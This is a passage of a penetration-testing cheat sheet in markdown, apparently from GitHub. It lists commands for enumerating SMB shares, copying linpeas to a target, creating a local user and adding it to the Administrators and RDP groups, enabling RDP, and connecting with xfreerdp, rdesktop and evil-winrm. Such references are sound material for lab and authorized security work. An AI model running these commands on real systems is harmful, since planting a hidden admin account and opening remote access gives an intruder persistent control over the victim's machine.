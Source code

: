 * smbmap
```
smbmap -H <ip> -u <user> 
```

* See read permission of given user on smb shares
```
crackmapexec smb <ip> --shares -u <user> -p '<pass>'
```

### Transfer Files
* SCP
```
C:\Tools>scp linpeas_linux_amd64 bob@192.168.0.67:/tmp/
bob@192.168.0.67's password:
linpeas_linux_amd64                       
```

### Remote Access
#### Remote Desktop Protocol - RDP

* Create a user  
```
net user <user> <password> /add
```

* Add to local administrators group  
```
net localgroup Administrators <user> /add
```

* Add to group of users who can access via RDP
```
net localgroup "Remote Management Users" <user> /add
net localgroup "Remote Desktop Users" <user> /add
```

* Enable RDP
```
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

* move to another user  
```
runas /user:<hostname>\<user> cmd
```

* xfreerdp via RDP with sharing in \\\tsclient\share\
```
xfreerdp /u:user /p:pass /v:ip +clipboard /dynamic-resolution /cert:ignore /drive:/usr/share/windows-resources,share
```
* rdesktop via RDP  
```
rdesktop -u <user> -p <password> -d <domain> -f <ip>
```
* evil-winrm
```
evil-winrm -i <ip> -u <user> -p <password>
```
